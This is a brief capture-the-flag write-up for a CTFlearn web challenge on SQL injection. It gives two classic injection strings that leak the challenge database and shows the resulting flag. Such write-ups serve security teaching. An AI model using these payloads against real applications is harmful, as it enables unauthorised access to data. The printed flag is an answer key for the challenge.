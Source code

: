 # Basic Injection
Category: Web

## Description

> See if you can leak the whole database using what you know about SQL Injections. [link](https://web.ctflearn.com/web4/).  

# Solution

To solve this, simply input `OR 1=1; #` or `' OR 1=1;-- ` (with a space after double dash). This leaks the database and gives us the answer
```
Name: fl4g__giv3r
Data: CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs} 
```